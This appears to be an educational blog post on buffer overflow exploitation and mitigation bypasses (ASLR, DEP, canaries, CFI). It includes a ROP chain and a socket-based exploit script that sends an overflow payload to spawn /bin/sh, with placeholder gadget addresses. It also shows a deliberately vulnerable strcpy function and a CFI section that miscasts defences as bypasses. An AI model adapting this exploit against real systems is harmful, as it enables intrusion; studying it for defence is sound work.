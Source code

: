 # Advanced Buffer Overflow Techniques

*Published on January 15, 2025 by Husam Gameel (Oppenheim3r)*

Buffer overflow vulnerabilities remain one of the most critical security issues in modern software development. This post explores advanced techniques for exploiting buffer overflows and bypassing contemporary security mechanisms.

## Introduction

Buffer overflows occur when a program writes more data to a buffer than it can hold, potentially overwriting adjacent memory locations. While basic buffer overflow exploitation has been well-documented, modern systems implement various protection mechanisms that require sophisticated bypass techniques.

## Modern Protection Mechanisms

### Address Space Layout Randomization (ASLR)

ASLR randomizes the memory layout of processes, making it difficult for attackers to predict memory addresses. However, several techniques can be used to bypass ASLR:

- **Information Leaks**: Exploiting format string vulnerabilities or other information disclosure bugs
- **Partial Overwrites**: Overwriting only the least significant bytes of addresses
- **Brute Force**: In 32-bit systems, the entropy is limited enough for brute force attacks

### Data Execution Prevention (DEP/NX)

DEP marks memory pages as non-executable, preventing code execution in data segments. Common bypass techniques include:

- **Return-Oriented Programming (ROP)**: Chaining existing code gadgets
- **Jump-Oriented Programming (JOP)**: Using indirect jumps instead of returns
- **Return-to-libc**: Calling existing library functions

## Advanced Exploitation Techniques

### ROP Chain Construction

```python
#!/usr/bin/env python3

import struct

def p64(value):
    return struct.pack('<Q', value)

# Sample ROP chain for x64 Linux
rop_chain = b""
rop_chain += p64(0x400123)  # pop rdi; ret
rop_chain += p64(0x601000)  # address of "/bin/sh"
rop_chain += p64(0x400456)  # system() address
```

### Heap Exploitation

Modern heap exploitation techniques focus on:

- **Use-After-Free (UAF)**: Exploiting dangling pointers
- **Double-Free**: Corrupting heap metadata
- **Heap Spraying**: Filling heap with controlled data

## Mitigation Bypass Strategies

### Stack Canaries

Stack canaries are random values placed on the stack to detect buffer overflows:

```c
// Vulnerable function with stack canary
void vulnerable_function(char *input) {
    char buffer[256];
    // Stack canary is placed here by compiler
    strcpy(buffer, input);  // Vulnerable to overflow
    // Canary check happens here
}
```

Bypass techniques:
- **Canary Leaks**: Using format string bugs to leak canary values
- **Partial Overwrites**: Avoiding canary corruption
- **Brute Force**: In forking servers, canaries remain constant

### Control Flow Integrity (CFI)

CFI ensures that indirect calls and jumps target legitimate destinations:

- **Gadget Discovery**: Finding legitimate call targets
- **Shadow Stack**: Maintaining a separate call stack
- **Hardware Assistance**: Using Intel CET or ARM Pointer Authentication

## Practical Example

Here's a complete exploitation example:

```python
#!/usr/bin/env python3
import socket
import struct

def exploit():
    # Target information
    target_ip = "192.168.1.100"
    target_port = 9999
    
    # ROP gadgets (found using ROPgadget)
    pop_rdi = 0x400743
    pop_rsi_r15 = 0x400741
    system_addr = 0x400560
    bin_sh = 0x400800
    
    # Build payload
    payload = b"A" * 72  # Buffer overflow
    payload += struct.pack('<Q', pop_rdi)
    payload += struct.pack('<Q', bin_sh)
    payload += struct.pack('<Q', system_addr)
    
    # Send exploit
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    exploit()
```

## Detection and Prevention

### Static Analysis

- **Code Review**: Manual inspection of critical functions
- **Automated Tools**: Using tools like Coverity, PVS-Studio
- **Compiler Warnings**: Enabling all relevant warning flags

### Dynamic Analysis

- **Fuzzing**: Using tools like AFL, libFuzzer
- **Runtime Checks**: AddressSanitizer, Valgrind
- **Penetration Testing**: Regular security assessments

### Secure Coding Practices

```c
// Secure string handling
#include <string.h>

void secure_copy(const char *src, char *dst, size_t dst_size) {
    strncpy(dst, src, dst_size - 1);
    dst[dst_size - 1] = '\0';  // Ensure null termination
}

// Using safer alternatives
char buffer[256];
snprintf(buffer, sizeof(buffer), "User input: %s", user_input);
```

## Conclusion

Buffer overflow exploitation continues to evolve alongside defensive mechanisms. Understanding both attack and defense perspectives is crucial for cybersecurity professionals. While modern protections make exploitation more challenging, determined attackers can still find ways to bypass these mechanisms.

Key takeaways:
- Always assume multiple layers of protection
- Stay updated with latest bypass techniques
- Implement defense in depth
- Regular security testing is essential

## References

- [OWASP Buffer Overflow Guide](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf)

---

*Tags: buffer-overflow, exploitation, binary-exploitation, rop, security-research*

